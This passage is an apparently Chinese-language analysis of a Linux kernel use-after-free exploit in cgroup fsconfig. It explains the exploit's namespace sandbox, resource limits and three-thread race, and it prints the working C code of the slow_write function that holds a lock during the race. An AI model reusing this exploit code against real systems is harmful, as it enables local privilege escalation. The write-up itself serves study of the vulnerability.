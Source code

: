 在循环中调用 clone 去启动一个新的进程，一般来说，clone 理解为 fork 没有问题。随后子进程执行 namespace_sandbox_proc，主进程等待子进程返回，那么来分析分析这个函数。  
#### sandbox_common  
  
先设置父进程死亡的信号为 SIGKILL，然后调用 setsid() 去脱离当前终端。随后做了一系列的限制，分别为  
- 地址空间限制（RLIMIT_AS）：限制了进程的虚拟内存空间大小为 200MB。  
  
- 锁定内存限制（RLIMIT_MEMLOCK）：限制了进程锁定内存的大小为 32MB。  
  
- 文件大小限制（RLIMIT_FSIZE）：限制了进程可以创建的文件大小为 136MB。  
  
- 栈大小限制（RLIMIT_STACK）：限制了进程的栈大小为 1MB。  
  
- 核心文件大小限制（RLIMIT_CORE）：禁止了进程生成核心转储文件。  
  
- 打开文件描述符数量限制（RLIMIT_NOFILE）：限制了进程可以打开的文件描述符数量为 256。  
  
然后挂载创建一个新的命名空间，将当前命名空间的根文件系统挂载点设置为私有，再创建其它的一系列的命名空间。  
  
随后写这些内核参数文件，这样就创建了一个合适的环境。  
#### loop  
##### trigger  
  
fsopen 打开一个文件系统 cgroup，将 ./uaf 链接到 ./data 上，又使用 fsconfig 进行了一些配置，在这个地方已经产生了 UAF 漏洞。  
  
然后开启了两个线程分别启动 slow_write 和 write_cmd，主线程调用 spray_files。分别对应论文第一张图的线程 1，2，3。  
  
那么可以发现，主要就是由这三个线程去操作了，之前一系列是为了进行一个环境配置在造成 UAF，因为并没有权限直接更改内核的某些参数，所以直接创建新的命名空间去操作的。  
##### slow_write  
```
void *slow_write() {
    printf("start slow write to get the lock\n");    int fd = open("./uaf", 1);

    if (fd < 0) {
        perror("error open uaf file");
        exit(-1);
    }

    unsigned long int addr = 0x30000000;
    int offset;
    for (offset = 0; offset < 0x80000; offset++) {
        void *r = mmap((void *)(addr + offset * 0x1000), 0x1000,
                       PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, 0, 0);
        if (r < 0) {
            printf("allocate failed at 0x%x\n", offset);
        }
    }

    assert(offset > 0);

    void *mem = (void *)(addr);
    memcpy(mem, "hhhhh", 5);

    struct iovec iov[5];
    for (int i = 0; i < 5; i++) {
        iov[i].iov_base = mem;
        iov[i].iov_len = (offset - 1) * 0x1000;
    }

    run_write = 1;
    if (writev(fd, iov, 5) < 0) {
        perror("slow write");
    }
    printf("write done!\n");}
```  
  